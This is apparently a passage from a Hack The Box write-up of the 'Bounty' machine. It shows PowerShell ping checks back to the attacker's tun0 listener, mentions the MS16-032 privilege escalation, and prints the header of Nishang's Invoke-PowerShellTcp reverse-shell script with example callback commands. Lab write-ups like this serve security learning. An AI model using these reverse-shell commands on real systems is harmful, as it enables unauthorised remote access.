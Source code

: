 ```
# C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe ping 10.10.14.69
```
And on the listener since I’m not getting feedback on the shell:

```
kali@kali:~/htb/Bounty$ sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
16:15:18.803715 IP bounty.htb > 10.10.14.69: ICMP echo request, id 1, seq 1, length 40
16:15:18.803734 IP 10.10.14.69 > bounty.htb: ICMP echo reply, id 1, seq 1, length 40
16:15:19.812811 IP bounty.htb > 10.10.14.69: ICMP echo request, id 1, seq 2, length 40
16:15:19.812845 IP 10.10.14.69 > bounty.htb: ICMP echo reply, id 1, seq 2, length 40
16:15:20.814379 IP bounty.htb > 10.10.14.69: ICMP echo request, id 1, seq 3, length 40
16:15:20.814405 IP 10.10.14.69 > bounty.htb: ICMP echo reply, id 1, seq 3, length 40
16:15:21.810373 IP bounty.htb > 10.10.14.69: ICMP echo request, id 1, seq 4, length 40
16:15:21.810395 IP 10.10.14.69 > bounty.htb: ICMP echo reply, id 1, seq 4, length 40
```

So we do have powershell possibilites. 

I think I wanna try ms16-032 next.

I do attempt to run a ms16-032 powershell script with the same command we used earlier. But nothing happens.

More about Ms16-032 over at my Optimum writeup [here](https://github.com/matale14/Writeups/blob/main/HTB/Optimum/Optimum.MD) 

I decide to improve my shell a bit. As the lack of feedback is frustrating. I just use a Nishang Powershell script. Invoke-PowerShellTcp.ps1

```
kali@kali:~/htb/Bounty$ cat Invoke-PowerShellTcp.ps1
function Invoke-PowerShellTcp
{
<#
.SYNOPSIS
Nishang script which can be used for Reverse or Bind interactive PowerShell from a target.

.DESCRIPTION
This script is able to connect to a standard netcat listening on a port when using the -Reverse switch.
Also, a standard netcat can connect to this script Bind to a specific port.

The script is derived from Powerfun written by Ben Turner & Dave Hardy

.PARAMETER IPAddress
The IP address to connect to when using the -Reverse switch.

.PARAMETER Port
The port to connect to when using the -Reverse switch. When using -Bind it is the port on which this script listens.

.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444

Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on
the given IP and port.

.EXAMPLE
PS > Invoke-PowerShellTcp -Bind -Port 4444

Above shows an example of an interactive PowerShell bind connect shell. Use a netcat/powercat to connect to this port.

.EXAMPLE
```